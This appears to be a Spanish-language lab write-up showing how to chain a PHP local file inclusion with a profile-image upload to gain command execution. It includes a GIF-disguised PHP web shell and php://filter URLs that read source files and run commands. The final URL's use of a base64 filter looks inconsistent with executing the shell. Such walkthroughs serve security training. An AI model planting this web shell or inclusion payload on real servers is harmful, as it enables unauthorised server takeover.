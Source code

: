 # LFI: File Upload -> RCE 👩‍💻

La página web que vulnerarmos es

![web.PNG](./assets/06-Sexto/01-web.PNG)

* **(1)** Este apartado sirve para subir una **imagen de perfil**
* **(2)** Notamos que se referencia a un Archivo `.php` 

---

Para poder derivar de `Subir un Archivo` a un `RCE` existen múltiple técnicas, en este laboratorio cambiaré los `magic bytes` de un archivo.

```
Con esto 'engañaremos' al servidor para hacerle creer que subimos un archivo gif, pero, en realidad tendrá código PHP
```

---

* **shell.gif**

```php
GIF8;
<?php system($_GET['cmd']); ?>
```

Subiremos el archivo en el apartado `Profile Settings` 

---

Para saber el **directorio** en el que se suben las imagenes veremos 

<p align="center">
    <img src="/assets/06-Sexto/02-network.PNG">
</p>

* Tenemos el **archivo .php** que se encarga de la subida de archivos.

---

Ahora, usaremos un `wrapper` para obtener el contenido del archivo `upload.php`

* **URL** `http://<IP Web>:<Puerto>/index.php?language=php://filter/read=convert.base64-encode/resource=upload.php`

<p align="center">
    <img src="/assets/06-Sexto/03-data.PNG">
</p>

---

Si decodeamos la cadena en **bas64 obtenida** tenemos

```bash
echo "[Base64 Data]" | base64 -d;echo
```

<p align="center">
    <img src="/assets/06-Sexto/04-folder.PNG">
</p>

* Sabemos que el directorio es `./profile_images/`
---

Accedemos a la imagen ubicada en ese directorio y listamos el contenido de la raiz

* **URL** `http://<IP Web>:<Puerto>/index.php?language=php://filter/read=convert.base64-encode/resource=./profile_images/shell.gif&cmd=ls /`

<p align="center">
    <img src="/assets/06-Sexto/05-flag.PNG">
</p>

---

Por último, leemos el contenido del archivo anterior

<p align="center">
    <img src="/assets/06-Sexto/06-file.PNG">
</p>